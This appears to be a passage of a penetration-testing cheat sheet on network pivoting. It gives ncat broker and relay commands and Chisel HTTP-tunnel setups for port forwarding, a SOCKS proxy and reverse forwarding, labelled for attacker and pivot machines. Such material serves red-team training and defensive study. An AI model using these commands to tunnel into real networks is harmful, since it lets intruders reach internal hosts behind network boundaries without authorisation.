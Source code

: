 # Attacker (broker == accept multiple connexions)
$ ncat -lv --broker --max-conns 2

# Pivot
# We connect to attacker and target
$ ncat -v 192.168.2.149 31337 -c 'ncat -v 10.42.42.2 80'

### Chisel Pivoting (HTTP Tunnel)


# Chisel offers to encapsulate TCP connexions in HTTP tunnels
# Everything is encrypted using SSH


# Local port forwarding

# Pivot machine
$ chisel server -p 8080 --host 192.168.2.105 -v

# Attacker machine
$ chisel client -v http://192.168.2.105:8080 127.0.0.1:33333:10.42.42.2:80


# Local port forwarding + SOCKS proxy

# Pivot machine
$ chisel server -p 8080 --host 192.168.2.105 --socks5 -v

# Attacker machine
$ chisel client -v http://192.168.2.105:8080 127.0.0.1:33333:socks


# Reverse remote port forwarding

# Attacker machine
$ chisel server -p 8888 --host 192.168.2.149 --reverse -v
